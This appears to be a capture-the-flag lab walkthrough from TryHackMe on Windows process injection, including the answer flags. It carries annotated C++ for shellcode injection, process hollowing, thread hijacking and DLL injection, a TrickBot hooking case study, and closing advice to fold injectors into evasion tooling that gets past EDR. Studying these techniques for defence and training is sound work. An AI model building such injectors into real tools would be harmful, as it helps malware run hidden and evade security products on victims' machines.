









# [Abusing Windows Internals](https://tryhackme.com/r/room/abusingwindowsinternals)



Leverage windows internals components to evade common detection solutions, using modern tool-agnostic approaches.

## Task 1 - Introduction


Windows internals are core to how the Windows operating system functions; this provides adversaries with a lucrative target for nefarious use. Windows internals can be used to hide and execute code, evade detections, and chain with other techniques or exploits.

The term Windows internals can encapsulate any component found on the back-end of the Windows operating system. This can include processes, file formats, COM (Component Object Model), task scheduling, I/O System, etc. This room will focus on abusing and exploiting processes and their components, DLLs (Dynamic Link Libraries), and the PE (Portable Executable) format.

### Learning Objectives

* Understand how internal components are vulnerable
* Learn how to abuse and exploit Windows Internals vulnerabilities
* Understand mitigations and detections for the techniques
* Apply techniques learned to a real-world adversary case study

Before beginning this room, familiarize yourself with basic Windows usage and functionality. We recommend completing the [Windows Internals room](https://tryhackme.com/room/windowsinternals). Basic programming knowledge in C++ and PowerShell is also recommended but not required.

We have provided a base Windows machine with the files needed to complete this room. You can access the machine in-browser or through RDP using the credentials below.

|Machine IP: MACHINE_IP|Username: THM-Attacker|Password: Tryhackme!|

This is going to be a lot of information. Please buckle your seatbelts and locate your nearest fire extinguisher.

Don’t forget to tip your blue team on the way out!

### Answer the questions below

* Start the provided machine and move on to the next tasks.

## Task 2 - Abusing Processes

Applications running on your operating system can contain one or more processes. Processes maintain and represent a program that’s being executed. 

Processes have a lot of other sub-components and directly interact with memory or virtual memory, making them a perfect candidate to target. The table below describes each critical component of processes and their purpose.

|Process Component|Purpose|
|-----------------|-------|
|Private Virtual Address Space|Virtual memory addresses the process is allocated.|
|Executable Program|Defines code and data stored in the virtual address space|
|Open Handles|Defines handles to system resources accessible to the process|
|Security Context|The access token defines the user, security groups, privileges, and other security information.|
|Process ID |Unique numerical identifier of the process|
|Threads|Section of a process scheduled for execution|

For more information about processes, check out the [Windows Internals room](https://tryhackme.com/room/windowsinternals).

Process injection is commonly used as an overarching term to describe injecting malicious code into a process through legitimate functionality or components. We will focus on four different types of process injection in this room, outlined below.

|Injection Type|Function|
|--------------|--------|
|Process Hollowing|Inject code into a suspended and “hollowed” target process|
|Thread Execution Hijacking|Inject code into a suspended target thread|
|Dynamic-link Library Injection|Inject a DLL into process memory|
|Portable Executable Injection|Self-inject a PE image pointing to a malicious function into a target process|

There are many other forms of process injection outlined by [MITRE T1055](https://attack.mitre.org/techniques/T1055/).

At its most basic level, process injection takes the form of shellcode injection.

At a high level, shellcode injection can be broken up into four steps:

1. Open a target process with all access rights.
2. Allocate target process memory for the shellcode.
3. Write shellcode to allocated memory in the target process.
4. Execute the shellcode using a remote thread.

The steps can also be broken down graphically to depict how Windows API calls interact with process memory.



We will break down a basic shellcode injector to identify each of the steps and explain in more depth below.

At step one of shellcode injection, we need to open a target process using special parameters. `OpenProcess` is used to open the target process supplied via the command-line.

```
processHandle = OpenProcess(
	PROCESS_ALL_ACCESS, // Defines access rights
	FALSE, // Target handle will not be inhereted
	DWORD(atoi(argv[1])) // Local process supplied by command-line arguments 
);
```

At step two, we must allocate memory to the byte size of the shellcode. Memory allocation is handled using `VirtualAllocEx`. Within the call, the `dwSize` parameter is defined using the `sizeof` function to get the bytes of shellcode to allocate.

```
remoteBuffer = VirtualAllocEx(
	processHandle, // Opened target process
	NULL, 
	sizeof shellcode, // Region size of memory allocation
	(MEM_RESERVE | MEM_COMMIT), // Reserves and commits pages
	PAGE_EXECUTE_READWRITE // Enables execution and read/write access to the commited pages
);
```

At step three, we can now use the allocated memory region to write our shellcode. `WriteProcessMemory` is commonly used to write to memory regions.

```
WriteProcessMemory(
	processHandle, // Opened target process
	remoteBuffer, // Allocated memory region
	shellcode, // Data to write
	sizeof shellcode, // byte size of data
	NULL
);
```

At step four, we now have control of the process, and our malicious code is now written to memory. To execute the shellcode residing in memory, we can use `CreateRemoteThread`; threads control the execution of processes.

```
remoteThread = CreateRemoteThread(
	processHandle, // Opened target process
	NULL, 
	0, // Default size of the stack
	(LPTHREAD_START_ROUTINE)remoteBuffer, // Pointer to the starting address of the thread
	NULL, 
	0, // Ran immediately after creation
	NULL
);
```

We can compile these steps together to create a basic process injector. Use the C++ injector provided and experiment with process injection.

Shellcode injection is the most basic form of process injection; in the next task, we will look at how we can modify and adapt these steps for process hollowing.

### Answer the questions below

* Identify a PID of a process running as THM-Attacker to target. Once identified supply the PID as an argument to execute shellcode-injector.exe located in the Injectors directory on the desktop. 

	```
	tasklist /v /FI "USERNAME eq THM-Attacker"
	```

	

* What flag is obtained after injecting the shellcode?

	

	**Answer : THM{1nj3c710n_15_fun!}**

## Task 3 - Expanding Process Abuse

In the previous task, we discussed how we can use shellcode injection to inject malicious code into a legitimate process. In this task we will cover process hollowing. Similar to shellcode injection, this technique offers the ability to inject an entire malicious file into a process. This is accomplished by “hollowing” or un-mapping the process and injecting specific PE (Portable Executable) data and sections into the process.

At a high-level process hollowing can be broken up into six steps:

1. Create a target process in a suspended state.
2. Open a malicious image.
3. Un-map legitimate code from process memory.
4. Allocate memory locations for malicious code and write each section into the address space.
5. Set an entry point for the malicious code.
6. Take the target process out of a suspended state.

The steps can also be broken down graphically to depict how Windows API calls interact with process memory.



We will break down a basic process hollowing injector to identify each of the steps and explain in more depth below.

At step one of process hollowing, we must create a target process in a suspended state using `CreateProcessA`. To obtain the required parameters for the API call we can use the structures `STARTUPINFOA` and `PROCESS_INFORMATION`.

```
LPSTARTUPINFOA target_si = new STARTUPINFOA(); // Defines station, desktop, handles, and appearance of a process
LPPROCESS_INFORMATION target_pi = new PROCESS_INFORMATION(); // Information about the process and primary thread
CONTEXT c; // Context structure pointer

if (CreateProcessA(
	(LPSTR)"C:\\\\Windows\\\\System32\\\\svchost.exe", // Name of module to execute
	NULL,
	NULL,
	NULL,
	TRUE, // Handles are inherited from the calling process
	CREATE_SUSPENDED, // New process is suspended
	NULL,
	NULL,
	target_si, // pointer to startup info
	target_pi) == 0) { // pointer to process information
	cout << "[!] Failed to create Target process. Last Error: " << GetLastError();
	return 1;
```

In step two, we need to open a malicious image to inject. This process is split into three steps, starting by using `CreateFileA` to obtain a handle for the malicious image.

```
HANDLE hMaliciousCode = CreateFileA(
	(LPCSTR)"C:\\\\Users\\\\tryhackme\\\\malware.exe", // Name of image to obtain
	GENERIC_READ, // Read-only access
	FILE_SHARE_READ, // Read-only share mode
	NULL,
	OPEN_EXISTING, // Instructed to open a file or device if it exists
	NULL,
	NULL
);
```

Once a handle for the malicious image is obtained, memory must be allocated to the local process using `VirtualAlloc`. `GetFileSize` is also used to retrieve the size of the malicious image for `dwSize`.

```
DWORD maliciousFileSize = GetFileSize(
	hMaliciousCode, // Handle of malicious image
	0 // Returns no error
);

PVOID pMaliciousImage = VirtualAlloc(
	NULL,
	maliciousFileSize, // File size of malicious image
	0x3000, // Reserves and commits pages (MEM_RESERVE | MEM_COMMIT)
	0x04 // Enables read/write access (PAGE_READWRITE)
);
```

Now that memory is allocated to the local process, it must be written. Using the information obtained from previous steps, we can use `ReadFile` to write to local process memory.

```
DWORD numberOfBytesRead; // Stores number of bytes read

if (!ReadFile(
	hMaliciousCode, // Handle of malicious image
	pMaliciousImage, // Allocated region of memory
	maliciousFileSize, // File size of malicious image
	&numberOfBytesRead, // Number of bytes read
	NULL
	)) {
	cout << "[!] Unable to read Malicious file into memory. Error: " <<GetLastError()<< endl;
	TerminateProcess(target_pi->hProcess, 0);
	return 1;
}

CloseHandle(hMaliciousCode);
```

At step three, the process must be “hollowed” by un-mapping memory. Before un-mapping can occur, we must identify the parameters of the API call. We need to identify the location of the process in memory and the entry point. The CPU registers `EAX` (entry point), and `EBX` (PEB location) contain the information we need to obtain; these can be found by using `GetThreadContext`. Once both registers are found, `ReadProcessMemory` is used to obtain the base address from the `EBX` with an offset (`0x8`), obtained from examining the PEB.

```
c.ContextFlags = CONTEXT_INTEGER; // Only stores CPU registers in the pointer
GetThreadContext(
	target_pi->hThread, // Handle to the thread obtained from the PROCESS_INFORMATION structure
	&c // Pointer to store retrieved context
); // Obtains the current thread context

PVOID pTargetImageBaseAddress; 
ReadProcessMemory(
	target_pi->hProcess, // Handle for the process obtained from the PROCESS_INFORMATION structure
	(PVOID)(c.Ebx + 8), // Pointer to the base address
	&pTargetImageBaseAddress, // Store target base address 
	sizeof(PVOID), // Bytes to read 
	0 // Number of bytes out
);
```

After the base address is stored, we can begin un-mapping memory. We can use `ZwUnmapViewOfSection` imported from ntdll.dll to free memory from the target process.

```
HMODULE hNtdllBase = GetModuleHandleA("ntdll.dll"); // Obtains the handle for ntdll
pfnZwUnmapViewOfSection pZwUnmapViewOfSection = (pfnZwUnmapViewOfSection)GetProcAddress(
	hNtdllBase, // Handle of ntdll
	"ZwUnmapViewOfSection" // API call to obtain
); // Obtains ZwUnmapViewOfSection from ntdll

DWORD dwResult = pZwUnmapViewOfSection(
	target_pi->hProcess, // Handle of the process obtained from the PROCESS_INFORMATION structure
	pTargetImageBaseAddress // Base address of the process
);
```

At step four, we must begin by allocating memory in the hollowed process. We can use `VirtualAlloc` similar to step two to allocate memory. This time we need to obtain the size of the image found in file headers. `e_lfanew` can identify the number of bytes from the DOS header to the PE header. Once at the PE header, we can obtain the `SizeOfImage` from the Optional header.

```
PIMAGE_DOS_HEADER pDOSHeader = (PIMAGE_DOS_HEADER)pMaliciousImage; // Obtains the DOS header from the malicious image
PIMAGE_NT_HEADERS pNTHeaders = (PIMAGE_NT_HEADERS)((LPBYTE)pMaliciousImage + pDOSHeader->e_lfanew); // Obtains the NT header from e_lfanew

DWORD sizeOfMaliciousImage = pNTHeaders->OptionalHeader.SizeOfImage; // Obtains the size of the optional header from the NT header structure

PVOID pHollowAddress = VirtualAllocEx(
	target_pi->hProcess, // Handle of the process obtained from the PROCESS_INFORMATION structure
	pTargetImageBaseAddress, // Base address of the process
	sizeOfMaliciousImage, // Byte size obtained from optional header
	0x3000, // Reserves and commits pages (MEM_RESERVE | MEM_COMMIT)
	0x40 // Enabled execute and read/write access (PAGE_EXECUTE_READWRITE)
);
```

Once the memory is allocated, we can write the malicious file to memory. Because we are writing a file, we must first write the PE headers then the PE sections. To write PE headers, we can use `WriteProcessMemory` and the size of headers to determine where to stop.

```
if (!WriteProcessMemory(
	target_pi->hProcess, // Handle of the process obtained from the PROCESS_INFORMATION structure
	pTargetImageBaseAddress, // Base address of the process
	pMaliciousImage, // Local memory where the malicious file resides
	pNTHeaders->OptionalHeader.SizeOfHeaders, // Byte size of PE headers 
	NULL
)) {
	cout<< "[!] Writting Headers failed. Error: " << GetLastError() << endl;
}
```

Now we need to write each section. To find the number of sections, we can use  `NumberOfSections` from the NT headers. We can loop through `e_lfanew` and the size of the current header to write each section.

```
for (int i = 0; i < pNTHeaders->FileHeader.NumberOfSections; i++) { // Loop based on number of sections in PE data
	PIMAGE_SECTION_HEADER pSectionHeader = (PIMAGE_SECTION_HEADER)((LPBYTE)pMaliciousImage + pDOSHeader->e_lfanew + sizeof(IMAGE_NT_HEADERS) + (i * sizeof(IMAGE_SECTION_HEADER))); // Determines the current PE section header

	WriteProcessMemory(
		target_pi->hProcess, // Handle of the process obtained from the PROCESS_INFORMATION structure
		(PVOID)((LPBYTE)pHollowAddress + pSectionHeader->VirtualAddress), // Base address of current section 
		(PVOID)((LPBYTE)pMaliciousImage + pSectionHeader->PointerToRawData), // Pointer for content of current section
		pSectionHeader->SizeOfRawData, // Byte size of current section
		NULL
	);
}
```

It is also possible to use relocation tables to write the file to target memory. This will be discussed in more depth in task 6.

At step five, we can use `SetThreadContext` to change `EAX` to point to the entry point.

```
c.Eax = (SIZE_T)((LPBYTE)pHollowAddress + pNTHeaders->OptionalHeader.AddressOfEntryPoint); // Set the context structure pointer to the entry point from the PE optional header

SetThreadContext(
	target_pi->hThread, // Handle to the thread obtained from the PROCESS_INFORMATION structure
	&c // Pointer to the stored context structure
);
```

At step six, we need to take the process out of a suspended state using `ResumeThread`.

```
ResumeThread(
	target_pi->hThread // Handle to the thread obtained from the PROCESS_INFORMATION structure
);
```

We can compile these steps together to create a process hollowing injector. Use the C++ injector provided and experiment with process hollowing.

### Answer the questions below

* Identify a PID of a process running as THM-Attacker to target. Supply the PID and executable name as arguments to execute hollowing-injector.exe located in the injectors directory on the desktop. 

	```
	tasklist /v /fi "USERNAME eq THM-Attacker"
	```

	

* What flag is obtained after hollowing and injecting the shellcode?

	

	**Answer : THM{7h3r35_n07h1n6_h3r3}**

## Task 4 - Abusing Process Components

At a high-level thread (execution) hijacking can be broken up into eleven steps:

1. Locate and open a target process to control.
2. Allocate memory region for malicious code.
3. Write malicious code to allocated memory.
4. Identify the thread ID of the target thread to hijack.
5. Open the target thread.
6. Suspend the target thread.
7. Obtain the thread context.
8. Update the instruction pointer to the malicious code.
9. Rewrite the target thread context.
10. Resume the hijacked thread.

We will break down a basic thread hijacking script to identify each of the steps and explain in more depth below.

The first three steps outlined in this technique following the same common steps as normal process injection. These will not be explained, instead, you can find the documented source code below.

```
HANDLE hProcess = OpenProcess(
	PROCESS_ALL_ACCESS, // Requests all possible access rights
	FALSE, // Child processes do not inheret parent process handle
	processId // Stored process ID
);
PVOIF remoteBuffer = VirtualAllocEx(
	hProcess, // Opened target process
	NULL, 
	sizeof shellcode, // Region size of memory allocation
	(MEM_RESERVE | MEM_COMMIT), // Reserves and commits pages
	PAGE_EXECUTE_READWRITE // Enables execution and read/write access to the commited pages
);
WriteProcessMemory(
	processHandle, // Opened target process
	remoteBuffer, // Allocated memory region
	shellcode, // Data to write
	sizeof shellcode, // byte size of data
	NULL
);
```

Once the initial steps are out of the way and our shellcode is written to memory we can move to step four. At step four, we need to begin the process of hijacking the process thread by identifying the thread ID. To identify the thread ID we need to use a trio of Windows API calls: `CreateToolhelp32Snapshot()`, `Thread32First()`, and `Thread32Next()`. These API calls will collectively loop through a snapshot of a process and extend capabilities to enumerate process information.

```
THREADENTRY32 threadEntry;

HANDLE hSnapshot = CreateToolhelp32Snapshot( // Snapshot the specificed process
	TH32CS_SNAPTHREAD, // Include all processes residing on the system
	0 // Indicates the current process
);
Thread32First( // Obtains the first thread in the snapshot
	hSnapshot, // Handle of the snapshot
	&threadEntry // Pointer to the THREADENTRY32 structure
);

while (Thread32Next( // Obtains the next thread in the snapshot
	snapshot, // Handle of the snapshot
	&threadEntry // Pointer to the THREADENTRY32 structure
)) {
```

At step five, we have gathered all the required information in the structure pointer and can open the target thread. To open the thread we will use `OpenThread` with the `THREADENTRY32` structure pointer.

```
if (threadEntry.th32OwnerProcessID == processID) // Verifies both parent process ID's match
		{
			HANDLE hThread = OpenThread(
				THREAD_ALL_ACCESS, // Requests all possible access rights
				FALSE, // Child threads do not inheret parent thread handle
				threadEntry.th32ThreadID // Reads the thread ID from the THREADENTRY32 structure pointer
			);
			break;
		}
```

At step six, we must suspend the opened target thread. To suspend the thread we can use `SuspendThread`.

```
SuspendThread(hThread);
```

At step seven, we need to obtain the thread context to use in the upcoming API calls. This can be done using `GetThreadContext` to store a pointer.

```
CONTEXT context;
GetThreadContext(
	hThread, // Handle for the thread 
	&context // Pointer to store the context structure
);
```

At step eight, we need to overwrite RIP (Instruction Pointer Register) to point to our malicious region of memory. If you are not already familiar with CPU registers, RIP is an x64 register that will determine the next code instruction; in a nutshell, it controls the flow of an application in memory. To overwrite the register we can update the thread context for RIP.

```
context.Rip = (DWORD_PTR)remoteBuffer; // Points RIP to our malicious buffer allocation
```

At step nine, the context is updated and needs to be updated to the current thread context. This can be easily done using `SetThreadContext` and the pointer for the context.

```
SetThreadContext(
	hThread, // Handle for the thread 
	&context // Pointer to the context structure
);
```

At the final step, we can now take the target thread out of a suspended state. To accomplish this we can use `ResumeThread`.

```
ResumeThread(
	hThread // Handle for the thread
);
```

We can compile these steps together to create a process injector via thread hijacking. Use the C++ injector provided and experiment with thread hijacking.

### Answer the questions below

* Identify a PID of a process running as THM-Attacker to target. Supply the PID as an argument to execute thread-injector.exe located in the Injectors directory on the desktop. 

	```
	tasklist /v /fi "USERNAME eq THM-Attacker"
	```

	

* What flag is obtained after hijacking the thread?

	

	**Answer : THM{w34p0n1z3d_53w1n6}**

## Task 5 - Abusing DLLs

At a high-level DLL injection can be broken up into six steps:

1. Locate a target process to inject.
2. Open the target process.
3. Allocate memory region for malicious DLL.
4. Write the malicious DLL to allocated memory.
5. Load and execute the malicious DLL.

We will break down a basic DLL injector to identify each of the steps and explain in more depth below.

At step one of DLL injection, we must locate a target thread. A thread can be located from a process using a trio of Windows API calls: `CreateToolhelp32Snapshot()`, `Process32First()`, and `Process32Next()`.

```
DWORD getProcessId(const char *processName) {
    HANDLE hSnapshot = CreateToolhelp32Snapshot( // Snapshot the specificed process
			TH32CS_SNAPPROCESS, // Include all processes residing on the system
			0 // Indicates the current process
		);
    if (hSnapshot) {
        PROCESSENTRY32 entry; // Adds a pointer to the PROCESSENTRY32 structure
        entry.dwSize = sizeof(PROCESSENTRY32); // Obtains the byte size of the structure
        if (Process32First( // Obtains the first process in the snapshot
					hSnapshot, // Handle of the snapshot
					&entry // Pointer to the PROCESSENTRY32 structure
				)) {
            do {
                if (!strcmp( // Compares two strings to determine if the process name matches
									entry.szExeFile, // Executable file name of the current process from PROCESSENTRY32
									processName // Supplied process name
								)) { 
                    return entry.th32ProcessID; // Process ID of matched process
                }
            } while (Process32Next( // Obtains the next process in the snapshot
							hSnapshot, // Handle of the snapshot
							&entry
						)); // Pointer to the PROCESSENTRY32 structure
        }
    }

DWORD processId = getProcessId(processName); // Stores the enumerated process ID
```

At step two, after the PID has been enumerated, we need to open the process. This can be accomplished from a variety of Windows API calls: `GetModuleHandle`, `GetProcAddress`, or `OpenProcess`.

```
HANDLE hProcess = OpenProcess(
	PROCESS_ALL_ACCESS, // Requests all possible access rights
	FALSE, // Child processes do not inheret parent process handle
	processId // Stored process ID
);
```

At step three, memory must be allocated for the provided malicious DLL to reside. As with most injectors, this can be accomplished using `VirtualAllocEx`.

```
LPVOID dllAllocatedMemory = VirtualAllocEx(
	hProcess, // Handle for the target process
	NULL, 
	strlen(dllLibFullPath), // Size of the DLL path
	MEM_RESERVE | MEM_COMMIT, // Reserves and commits pages
	PAGE_EXECUTE_READWRITE // Enables execution and read/write access to the commited pages
);
```

At step four, we need to write the malicious DLL to the allocated memory location. We can use `WriteProcessMemory` to write to the allocated region.

```
WriteProcessMemory(
	hProcess, // Handle for the target process
	dllAllocatedMemory, // Allocated memory region
	dllLibFullPath, // Path to the malicious DLL
	strlen(dllLibFullPath) + 1, // Byte size of the malicious DLL
	NULL
);
```

At step five, our malicious DLL is written to memory and all we need to do is load and execute it. To load the DLL we need to use `LoadLibrary`; imported from `kernel32`. Once loaded, `CreateRemoteThread` can be used to execute memory using `LoadLibrary` as the starting function.

```
LPVOID loadLibrary = (LPVOID) GetProcAddress(
	GetModuleHandle("kernel32.dll"), // Handle of the module containing the call
	"LoadLibraryA" // API call to import
);
HANDLE remoteThreadHandler = CreateRemoteThread(
	hProcess, // Handle for the target process
	NULL, 
	0, // Default size from the execuatable of the stack
	(LPTHREAD_START_ROUTINE) loadLibrary, pointer to the starting function
	dllAllocatedMemory, // pointer to the allocated memory region
	0, // Runs immediately after creation
	NULL
);
```

We can compile these steps together to create a DLL injector. Use the C++ injector provided and experiment with DLL injection.

### Answer the questions below

* Identify a PID and name of a process running as THM-Attacker to target. Supply the name and malicious DLL found in the Injectors directory as arguments to execute dll-injector.exe located in the Injectors directory on the desktop. 

	```
	tasklist /v /fi "USERNAME eq THM-Attacker"
	```

	

* What flag is obtained after injecting the DLL?

	

	**Answer : THM{n07_4_m4l1c10u5_dll}**

## Task 6 - Memory Execution Alternatives

Depending on the environment you are placed in, you may need to alter the way that you execute your shellcode. This could occur when there are hooks on an API call and you cannot evade or unhook them, an EDR is monitoring threads, etc.

Up to this point, we have primarily looked at methods of allocating and writing data to and from local/remote processes. Execution is also a vital step in any injection technique; although not as important when attempting to minimize memory artifacts and IOCs (Indicators of Compromise). Unlike allocating and writing data, execution has many options to choose from.

Throughout this room, we have observed execution primarily through `CreateThread` and its counterpart, `CreateRemoteThread`.

In this task we will cover three other execution methods that can be used depending on the circumstances of your environment.

### Invoking Function Pointers

The void function pointer is an oddly novel method of memory block execution that relies solely on typecasting.

This technique can only be executed with locally allocated memory but does not rely on any API calls or other system functionality.

The one-liner below is the most common form of the void function pointer, but we can break it down further to explain its components.


This one-liner can be hard to comprehend or explain since it is so dense, let's walk through it as it processes the pointer.

1. Create a function pointer `(void(*)()`, outlined in red
2. Cast the allocated memory pointer or shellcode array into the function pointer `(<function pointer>)addressPointer)`, outlined in yellow
3. Invoke the function pointer to execute the shellcode `();`, outlined in green

This technique has a very specific use case but can be very evasive and helpful when needed.

### Asynchronous Procedure Calls

From the [Microsoft documentation](https://docs.microsoft.com/en-us/windows/win32/sync/asynchronous-procedure-calls) on Asynchronous Procedure Calls, “An asynchronous procedure call (APC) is a function that executes asynchronously in the context of a particular thread.”

An APC function is queued to a thread through `QueueUserAPC`. Once queued the APC function results in a software interrupt and executes the function the next time the thread is scheduled.

In order for a userland/user-mode application to queue an APC function the thread must be in an “alertable state”. An alertable state requires the thread to be waiting for a callback such as `WaitForSingleObject` or `Sleep`.

Now that we understand what APC functions are let's look at how they can be used maliciously! We will use VirtualAllocEx and WriteProcessMemory for allocating and writing to memory.

```
QueueUserAPC(
	(PAPCFUNC)addressPointer, // APC function pointer to allocated memory defined by winnt
	pinfo.hThread, // Handle to thread from PROCESS_INFORMATION structure
	(ULONG_PTR)NULL
	);
ResumeThread(
	pinfo.hThread // Handle to thread from PROCESS_INFORMATION structure
);
WaitForSingleObject(
	pinfo.hThread, // Handle to thread from PROCESS_INFORMATION structure
	INFINITE // Wait infinitely until alerted
);
```

This technique is a great alternative to thread execution, but it has recently gained traction in detection engineering and specific traps are being implemented for APC abuse. This can still be a great option depending on the detection measures you are facing.

### Section Manipulation

A commonly seen technique in malware research is PE (Portable Executable) and section manipulation. As a refresher, the PE format defines the structure and formatting of an executable file in Windows. For execution purposes, we are mainly focused on the sections, specifically `.data` and `.text`, tables and pointers to sections are also commonly used to execute data.

We will not go in-depth with these techniques since they are complex and require a large technical breakdown, but we will discuss their basic principles.

To begin with any section manipulation technique, we need to obtain a PE dump. Obtaining a PE dump is commonly accomplished with a DLL or other malicious file fed into `xxd`.

At the core of each method, it is using math to move through the physical hex data which is translated to PE data.

Some of the more commonly known techniques include RVA entry point parsing, section mapping, and relocation table parsing.


With all injection techniques, the ability to mix and match commonly researched methods is endless. This provides you as an attacker with a plethora of options to manipulate your malicious data and execute it.

### Answer the questions below

* What protocol is used to execute asynchronously in the context of a thread?

	**Answer : Asynchronous Procedure Calls**

* What is the Windows API call used to queue an APC function?

	**Answer : QueueUserAPC**

* Can the void function pointer be used on a remote process? (y/n)

	**Answer : n**

## Task 7 - Case Study in Browser Injection and Hooking

To get hands on with the implications of process injection we can observe the TTPs (Tactics, Techniques, and Procedures) of TrickBot.

Credit for initial research: [SentinelLabs](https://www.sentinelone.com/labs/how-trickbot-malware-hooking-engine-targets-windows-10-browsers/)

TrickBot is a well known banking malware that has recently regained popularity in financial crimeware. The main function of the malware we will be observing is browser hooking. Browser hooking allows the malware to hook interesting API calls that can be used to intercept/steal credentials.

To begin our analysis, let’s look at how they’re targeting browsers. From SentinelLab’s reverse engineering, it is clear that `OpenProcess` is being used to obtain handles for common browser paths; seen in the disassembly below.

```
push   eax
push   0
push   438h
call   ds:OpenProcess
mov    edi, eax
mov    [edp,hProcess], edi
test   edi, edi
jz     loc_100045EE
```
```
push   offset Srch            ; "chrome.exe"
lea    eax, [ebp+pe.szExeFile]
...
mov    eax, ecx
push   offset aIexplore_exe   ; "iexplore.exe"
push   eax                    ; lpFirst
...
mov    eax, ecx
push   offset aFirefox_exe   ; "firefox.exe"
push   eax                    ; lpFirst
...
mov    eax, ecx
push   offset aMicrosoftedgec   ; "microsoftedgecp.exe"
...
```

The current source code for the reflective injection is unclear but SentinelLabs has outlined the basic program flow of the injection below.

1. Open Target Process, `OpenProcess`
2. Allocate memory, `VirtualAllocEx`
3. Copy function into allocated memory, `WriteProcessMemory`
4. Copy shellcode into allocated memory, `WriteProcessMemory`
5. Flush cache to commit changes, `FlushInstructionCache`
6. Create a remote thread, `RemoteThread`
7. Resume the thread or fallback to create a new user thread, `ResumeThread` or `RtlCreateUserThread`

Once injected TrickBot will call its hook installer function copied into memory at step three. Pseudo-code for the installer function has been provided by SentinelLabs below.

```
relative_offset = myHook_function - *(_DWORD *)(original_function + 1) - 5;
v8 = (unsigned __int8)original_function[5];
trampoline_lpvoid = *(void **)(original_function + 1);
jmp_32_bit_relative_offset_opcode = 0xE9u;		// "0xE9" -> opcode for a jump with a 32bit relative offset

if ( VirtualProtectEx((HANDLE)0xFFFFFFFF, trampoline_lpvoid, v8, 0x40u, &flOldProtect) )	// Set up the function for "PAGE_EXECUTE_READWRITE" w/ VirtualProtectEx
{
	v10 = *(_DWORD *)(original_function + 1);
	v11 = (unsigned __int8)original_function[5] - (_DWORD)original_function - 0x47;
	original_function[66] = 0xE9u;
	*(_DWORD *)(original_function + 0x43) = v10 + v11;
	write_hook_iter(v10, &jmp_32_bit_relative_offset_opcode, 5); // -> Manually write the hook
	VirtualProtectEx(		// Return to original protect state
		(HANDLE)0xFFFFFFFF,
		*(LPVOID *)(original_function + 1),
		(unsigned __int8)original_function[5],
		flOldProtect,
		&flOldProtect);
result = 1;
```

Let’s break this code down, it may seem daunting at first, but it can be broken down into smaller sections of knowledge we have gained throughout this room.

The first section of interesting code we see can be identified as function pointers; you may recall this from the previous task on invoking function pointers.

```
relative_offset = myHook_function - *(_DWORD *)(original_function + 1) - 5;
v8 = (unsigned __int8)original_function[5];
trampoline_lpvoid = *(void **)(original_function + 1);
```

Once function pointers are defined the malware will use them to modify the memory protections of the function using `VirtualProtectEx`.

```
if ( VirtualProtectEx((HANDLE)0xFFFFFFFF, trampoline_lpvoid, v8, 0x40u, &flOldProtect) )
```

At this point, the code turns into malware funny business with function pointer hooking. It is not essential to understand the technical requirements of this code for this room. At its bare bones, this code section will rewrite a hook to point to an opcode jump.

```
v10 = *(_DWORD *)(original_function + 1);
v11 = (unsigned __int8)original_function[5] - (_DWORD)original_function - 0x47;
original_function[66] = 0xE9u;
*(_DWORD *)(original_function + 0x43) = v10 + v11;
write_hook_iter(v10, &jmp_32_bit_relative_offset_opcode, 5); // -> Manually write the hook
```

Once hooked it will return the function to its original memory protections.

```
VirtualProtectEx(		// Return to original protect state
		(HANDLE)0xFFFFFFFF,
		*(LPVOID *)(original_function + 1),
		(unsigned __int8)original_function[5],
		flOldProtect,
		&flOldProtect);
```

This may still seem like a lot of code and technical knowledge being thrown and that is okay! The main takeaway of the hooking function for TrickBot is that it will inject itself into browser processes using reflective injection and hook API calls from the injected function.

### Answer the questions below

* What alternative Windows API call was used by TrickBot to create a new user thread?

	**Answer : RtlCreateUserThread**

* Was the injection techniques employed by TrickBot reflective? (y/n)

	**Answer : Y**

* What function name was used to manually write hooks?

	**Answer : write_hook_iter**

## Task 8 - Conclusion

Process injection is an overarching technique that can be used in many varieties and is one of the most common cases of abusing Windows Internals.

It is important to note that as detection engineering and monitoring evolves injection techniques will need to evolve as well. Most of the techniques shown in this room will be detected by popular commercial EDRs but you can still easily modify your injectors to meet the cat and mouse game between the red and blue team.

When preparing to incorporate an injection technique into your own work or tools we advise that you use it as only a small section of a larger tool. Mixing and matching components of injection can also be very fruitful to attempt to make your tooling as close to a legitimate application as possible.

Add these techniques to your evasion toolbox and continue experimenting to identify what works best for the environment you are in.

### Answer the questions below

* Read the above and continue learning!